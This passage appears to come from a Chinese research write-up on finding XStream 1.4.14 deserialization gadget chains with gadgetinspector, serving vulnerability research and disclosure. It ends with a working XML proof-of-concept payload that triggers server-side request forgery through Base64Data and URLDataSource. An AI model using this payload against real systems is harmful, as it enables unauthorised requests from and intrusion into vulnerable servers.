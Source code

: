 SnmpIndex.toString代码如下：

![image-20210119104858617](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119104858617.png)

elements()函数如下，可以看到返回的枚举实例含有this参数，所以被认为参数可控，但是实际无法改变它的类型为ContextEnumerator。

![image-20210119104959316](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119104959316.png)

解决方法：将SnmpIndex.toString加入黑名单。

#### 下载地址

https://github.com/JackOfMostTrades/gadgetinspector

https://github.com/threedr3am/gadgetinspector

### XStream 1.4.14

#### source定制

1.4.14对于CVE-2020-26217的修复措施是将ImageIO和ProcessBuilder加入黑名单，堵了利用的两个类，没有将入口堵住。所以将Base64Data.get作为source。

我们只需要在Gadget-inspector中实现三个组件，分别是

1. SerializableDecider：序列化决策者，这个决策者的作用主要围绕着apply方法的实现，通过apply方法，判断目标类class是否具备可序列化，那么相对而言就是是否可以被反序列化，像Java原生反序列化就需要class实现java/io/Serializable序列化接口才能反序列化。
2. ImplementationFinder：对于一个接口interface，该组件主要用于判断它的实现类，是否能被反序列化
3. SourceDiscovery：链的起始端搜索类，类似于jackson对于json的解析，在反序列化时，会有一定条件的触发setter、getter方法，那么，这些方法即是整个gadget chain的入口点，而该组件就是用于搜索所有具备这样特征的类

#### 发现的Gadget链

##### SSRF

只需定制好source之后就可以发现这一条链

```
com/sun/xml/internal/bind/v2/runtime/unmarshaller/Base64Data.get()[B (0)
  javax/activation/URLDataSource.getInputStream()Ljava/io/InputStream; (0)
  java/net/URL.openStream()Ljava/io/InputStream; (0)
```

poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='javax.activation.URLDataSource'>
                        <url>http://localhost:9999/ssrf?a=1</url>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```
